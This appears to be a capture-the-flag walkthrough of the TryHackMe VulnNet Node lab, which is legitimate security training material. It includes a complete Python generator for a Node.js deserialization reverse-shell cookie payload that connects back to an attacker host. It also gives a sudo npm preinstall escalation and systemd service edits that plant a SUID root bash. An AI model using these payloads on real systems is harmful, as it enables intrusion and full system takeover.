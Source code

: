 ```yaml
---
title: "Try Hack Me - VulnNet Node Walkthrough"
date: 2022-07-27 12:00:00
catagories: [article,walkthrough]
tags: [THM, ctf, easy, linux, express, ]
---
```


Continuing on with the VulnNet series, this box is called [VulnNet Node](https://tryhackme.com/room/vulnnetnode).

We start the box by running autorecon. [Click here to see my post on how to use it](https://knox.technology/posts/using_autorecon/)

# Recon

Looking at our `NMAP` scans there appears to only be one port open `8080`

```
PORT     STATE SERVICE REASON         VERSION
8080/tcp open  http    syn-ack ttl 61 Node.js Express framework
|_http-title: VulnNet &ndash; Your reliable news source &ndash; Try Now!
```

`NMAP` does tell us that this site is running the Node.js Express framwork.

We take a look at the site:

![](/assets/images/vn_n/login.jpg)

And we find a login page. We could try to brute force, but let's keep looking before we take a sledge hammer to the website.

Using inspect on the page us see that there is a session cookie that is base64 encoded.

![](/assets/images/vn_n/cookie-decode.jpg)

Fun Fact: the `%3D`s at the end of the string are just HTML encoded `=` signs that you would expect at the end of some base64 strings.

We see that the base64 is just some serialized json. Let's use the Burp Suite Decoder tab to help us change the values to username:Admin and isGuest:false

![](/assets/images/vn_n/burp-encode.jpg)

After adding the new cookie and refreshing the page we get an error:

![](/assets/images/vn_n/good-error.jpg)

This is good news because the Express Framework has a vulnerability involving serialized json.

# Exploit serialized json for foothol

Let's google it!!

![](/assets/images/vn_n/google-it.jpg)

Checking out that first website we discover that we can create an evil cookie that will trigger remote code execution.

I found a modified version ofthe script from this site that works nicely for our purposes:

```python
#!/usr/bin/python
# Generator for encoded NodeJS reverse shells
# Based on the NodeJS reverse shell by Evilpacket
# https://github.com/evilpacket/node-shells/blob/master/node_revshell.js
# Onelineified and suchlike by infodox (and felicity, who sat on the keyboard)
# Insecurety Research (2013) - insecurety.net
import sys
import base64

#if len(sys.argv) != 3:
#    print "Usage: %s <LHOST> <LPORT>" % (sys.argv[0])
#    sys.exit(0)

IP_ADDR = sys.argv[1]
PORT = sys.argv[2]


def charencode(string):
    """String.CharCode"""
    encoded = ''
    for char in string:
        encoded = encoded + "," + str(ord(char))
    return encoded[1:]

print("[+] LHOST = " + IP_ADDR)
print("[+] LPORT = " + PORT)
NODEJS_REV_SHELL = '''
var net = require('net');
var spawn = require('child_process').spawn;
HOST="%s";
PORT="%s";
TIMEOUT="5000";
if (typeof String.prototype.contains === 'undefined') { String.prototype.contains = function(it) { return this.indexOf(it) != -1; }; }
function c(HOST,PORT) {
    var client = new net.Socket();
    client.connect(PORT, HOST, function() {
        var sh = spawn('/bin/sh',[]);
        client.write("Connected!\\n");
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
        sh.on('exit',function(code,signal){
          client.end("Disconnected!\\n");
        });
    });
    client.on('error', function(e) {
        setTimeout(c(HOST,PORT), TIMEOUT);
    });
}
c(HOST,PORT);
''' % (IP_ADDR, PORT)
print("[+] Encoding")
print("njs payload: " + NODEJS_REV_SHELL)
PAYLOAD = charencode(NODEJS_REV_SHELL)
PAYLOAD = "eval(String.fromCharCode(" + PAYLOAD + "))"
print(PAYLOAD)

PAYLOAD = '{"rce":"_$$ND_FUNC$$_function (){' + PAYLOAD + '}()"}'
print(PAYLOAD)
PAYLOAD = base64.b64encode(PAYLOAD.encode('ascii'))
print(PAYLOAD)
```

You run the above script like this: `python3 nodeshell.py <RHOST> <RPORT>`

The output will havea base64 string, copy it and use it as the value for the session cookie.

DON'T forget to start your listener!!!

Refresh the page with the modified cookie:

![](/assets/images/vn_n/foothold.jpg)

# Pivot from www to serv-manage

We drop in as the `www` user. Time to look around and see what we find.

Looking in the `/home` directory we find 2 users:

```
ll
total 16
drwxr-xr-x  4 root        root        4096 Jan 24  2021 ./
drwxr-xr-x 23 root        root        4096 Jan 24  2021 ../
drwxr-x--- 17 serv-manage serv-manage 4096 Jan 24  2021 serv-manage/
drwxr-xr-x  7 www         www         4096 Jan 24  2021 www/
www@vulnnet-node:/home$
```

I copy [LSE](https://github.com/diego-treitos/linux-smart-enumeration) over to the machine with `wget`

When I run it (`./lse.sh -l1`) I immediately notice this:

![](/assets/images/vn_n/sudo.jpg)

So we go to [gtfobins](https://gtfobins.github.io/gtfobins/npm/) and lookup `npm`

We will have to modify the commands slightly from the info on the site:

We need to make sure to `sudo -u serv-manage` because sudo privleges are to run `npm` as serv-manage NOT as root.

Also we use the full path to `npm` to be safe `/usr/bin/npm`

And lastly `chmod 777 -R $TF` - this give full permissions to our temp file and is recursive.

```bash
TF=$(mktemp -d)
echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
chmod 777 -R $TF
sudo -u serv-manage /usr/bin/npm -C $TF --unsafe-perm i
```
![](/assets/images/vn_n/serv-manage.jpg)

# Escalate to root

We jump straight to `sudo -l`

![](/assets/images/vn_n/sudo-l.jpg)

And we discover that again we have some `sudo` permissions but this time we can run as root!

Let's use `locate` to find the vulnnet service we have access to and examine it.

```bash
locate vulnnet-auto.timer.timer
ls -lah /etc/systemd/system/vulnnet-auto.timer
cat /etc/systemd/system/vulnnet-auto.timer
```

[](/assets/images/vn_n/service1.jpg)

This service appears to refer to another service `vulnnet-job.service` lets take a look at it too.

```bash
locate vulnnet-auto.timer.timer
ls -lah /etc/systemd/system/vulnnet-job.service
cat /etc/systemd/system/vulnnet-job.service
```
[](/assets/images/vn_n/job-service.jpg)

We need to modify both files.

I used nano, but failed several times before I was able to do it because my shell was unstable.

First we change the interval on the vulnnet-auto.timer to every minute:

```
[Unit]
Description=Run VulnNet utilities every 30 min

[Timer]
OnBootSec=0min
# 30 min job
OnCalendar=*:0/1
Unit=vulnnet-job.service

[Install]
WantedBy=basic.target
```

Then we change the vulnnet-job.service:
```
[Unit]
Description=Logs system statistics to the systemd journal
Wants=vulnnet-auto.timer

[Service]
# Gather system statistics
Type=forking
ExecStart=/bin/bash -c 'cp /bin/bash /tmp/rootbash;chmod +xs /tmp/rootbash'

[Install]
WantedBy=multi-user.target
```

We don't need a shell. In fact creating a `rootbash` will work better.

After modifing the files we need to navigate to `/tmp` and wait for the creation of our `rootbash`

![](/assets/images/vn_n/rootbash.jpg)

Thanks for reading! 










